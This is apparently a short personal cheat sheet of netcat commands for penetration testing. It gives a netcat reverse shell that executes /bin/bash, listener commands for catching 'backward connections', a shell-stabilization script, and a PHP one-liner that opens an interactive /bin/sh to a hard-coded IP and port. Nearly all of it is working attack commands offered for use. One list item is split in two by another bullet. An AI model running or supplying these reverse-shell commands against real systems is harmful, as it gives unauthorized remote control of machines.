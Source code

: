 # All of my used comamnds in netcat

- `echo hello | nc <ip> <port>` send the output of echo by tcp packets to the specified ip and port
  - This type of commands are used in exploiting os command execution
- `nc <ip> <port> -e /bin/bash` specify which program to execute after connect to a host
- `nc -l -p <port>` Listen for incoming packets from the specified port
- `nc -l -n -p <port>` Do not do any DNS or service lookups on any specified addresses, hostnames or

* `nc -lnvp <port>` listens to a port for backward connection
  ports while listening

- `nc -u` use UDP packets instead of tcp

## Shell Stabilization script

```bash
python -c "import pty;pty.spawn('/bin/bash')"
# ctrl+z
stty raw -echo
# type fg to regain the netcat shell and press some enters
export TERM=xterm
```

`php -r '$sock=fsockopen("10.8.152.114",5050);exec("/bin/sh -i <&3 >&3 2>&3");'`
